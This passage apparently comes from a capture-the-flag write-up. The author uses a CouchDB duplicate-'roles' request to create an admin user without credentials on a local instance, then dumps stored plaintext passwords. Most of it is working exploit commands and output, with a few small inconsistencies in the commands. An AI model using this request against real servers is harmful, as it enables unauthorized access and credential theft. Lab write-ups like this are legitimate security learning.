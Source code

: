 ```bash
{"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"}},
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
$> curl -X GET http://localhost:5984/passwords/_all_docs
{"error":"unauthorized","reason":"You are not a server admin."}
```

So the job now seems to be getting server admin. After a google search looking for vulnerabilties affecting this DB in this version, I found this **EXCELENT** [blogpost](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html). Basically the attack consist in creating a server admin without any credentials only by sending an HTTP request (for further details, read the blog).

I changed (just the names) a little bit the PoC of the blog and executed against the db: 

```bash
$> curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:oops' --data-binary '{
  "type": "user",
  "name": "tsuller",
  "roles": ["_admin"],
  "roles": [],
  "password": "tsuller"
}'
{"ok":true,"id":"org.couchdb.user:tsuller","rev":"1-0b547bb36cb610ec21d9571312f6e20c"}
```

Yes! Seems that it worked! Lets check:

```bash
$> curl -X GET http://tsuller:tsuller@localhost:5984/_passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

YES! Worked. Lets dump the content of each doc:

```bash
$> curl http://tsuller:tsuller@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
$> curl http://tsuller:tsuller@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
$> curl http://tsuller:tsuller@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
$> curl http://tsuller:tsuller@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```
